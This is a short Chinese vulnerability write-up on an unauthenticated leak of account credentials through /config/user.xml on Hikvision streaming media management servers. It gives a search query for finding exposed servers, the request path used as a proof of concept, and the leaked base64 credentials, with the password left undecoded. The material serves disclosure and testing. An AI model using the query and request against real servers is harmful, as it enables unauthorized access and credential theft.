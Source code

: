 # Hikvision 流媒体管理服务器 user.xml 账号密码泄漏漏洞

## 漏洞描述

Hikvision 流媒体管理服务器配置文件未做鉴权，攻击者通过漏洞可以获取网站账号密码

## 漏洞影响

```
Hikvision 流媒体管理服务器
```

## 网络测绘

```
"杭州海康威视系统技术有限公司 版权所有" && title="流媒体管理服务器"
```

## 漏洞复现

登陆页面

![image-20220519172629739](images/202205191726829.png)

POC

```
/config/user.xml
```

![image-20220519172714407](images/202205191727443.png)

```
<user name="YWRtaW4=" password="MTIzNDU="/>
```

base64解密

```
<user name="admin" password="MTIzNDU="/>
```

